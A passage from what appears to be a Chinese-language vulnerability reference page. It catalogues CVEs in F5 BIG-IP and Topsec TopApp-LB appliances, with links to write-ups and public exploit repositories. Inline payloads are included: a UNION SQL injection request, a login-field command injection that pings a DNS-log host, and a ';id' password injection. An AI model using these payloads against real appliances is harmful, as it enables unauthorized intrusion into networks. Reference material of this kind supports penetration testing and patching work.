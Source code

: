     - POC | Payload | exp
        - [trustedsec/cve-2019-19781](https://github.com/trustedsec/cve-2019-19781)
        - [jas502n/CVE-2019-19781](https://github.com/jas502n/CVE-2019-19781)

**F5 BIG-IP**
- **CVE-2020-5902 F5 BIG-IP 远程代码执行漏洞**
    - 相关文章
        - [CVE-2020-5902——关于;号绕过认证技巧总结](https://mp.weixin.qq.com/s/JnI4f3R5JZqhLFv_fTQ_0A)
        - [F5 BIG-IP Remote Code Execution Exploit - CVE-2020-5902 | Critical Start](https://www.criticalstart.com/f5-big-ip-remote-code-execution-exploit/)

    - POC | Payload | exp
        - [jas502n/CVE-2020-5902](https://github.com/jas502n/CVE-2020-5902)
        - [theLSA/f5-bigip-rce-cve-2020-5902](https://github.com/theLSA/f5-bigip-rce-cve-2020-5902)

- **CVE-2021-22986 F5 BIG-IP RCE**
    - 相关文章
        - [CVE-2021-22986：BIG-IP/BIG-IQ未授权RCE](https://mp.weixin.qq.com/s/-WScu2pgUjvjEqWKt5f19A)
        - [F5 BIG-IP CVE-2021-22986 验证及利用](https://mp.weixin.qq.com/s/lPTSPB_JMO9DxBaKxF61GA)

    - POC | Payload | exp
        - [h4x0r-dz/RCE-Exploit-in-BIG-IP](https://github.com/h4x0r-dz/RCE-Exploit-in-BIG-IP)
        - [Al1ex/CVE-2021-22986](https://github.com/Al1ex/CVE-2021-22986)

- **CVE-2022-1388 F5 BIG-IP iControl REST 处理进程分析与认证绕过漏洞**
    - 镜像下载
        - https://downloads.f5.com/esd/ecc.sv?sw=BIG-IP&pro=big-ip_v15.x&ver=15.1.5&container=15.1.5.1_Virtual-Edition

    - 相关文章
        - [CVE-2022-1388 F5 BIG-IP iControl REST 处理进程分析与认证绕过漏洞复现](https://mp.weixin.qq.com/s/DR0RGE0lhBjBIF3TbDLhMw)
        - [F5 BIG-IP本地环境搭建以及CVE-2022-1388复现](https://mp.weixin.qq.com/s/gDXu1WLz3O74c3TqLT7p_g)

**天融信 Top-app LB**
- **SQL注入漏洞**
    - POC | Payload | exp
        - [天融信Top-app LB负载均衡SQL注入漏洞](https://www.hedysx.com/2601.html)
            ```
            POST /acc/clsf/report/datasource.php HTTP/1.1
            Content-Type: application/x-www-form-urlencoded

            t=l&e=0&s=t&l=1&vid=1+union select 1,2,3,4,5,6,7,8,9,substr('a',1,1),11,12,13,14,15,16,17,18,19,20,21,22-- &o=r_Speed&gid=0&lmt=10&asc=false&p=8&lipf=&lipt=&ripf=&ript=&dscp=&proto=&lpf=&lpt=&rpf=&rpt=
            ```
- **未授权**
    - POC | Payload | exp
        - [天融信负载均衡TopApp-LB系统无需密码直接登录](https://www.uedbox.com/post/21626/)
            ```
            登录框
            ; ping xxx.dnslog.info; echo
            ```

- **RCE**
    - POC | Payload | exp
        - [天融信TopApp-LB负载均衡命令执行漏洞大量设备可被通杀](https://www.uedbox.com/post/22193/)
            ```
            用户名随意  密码：;id
            ```

---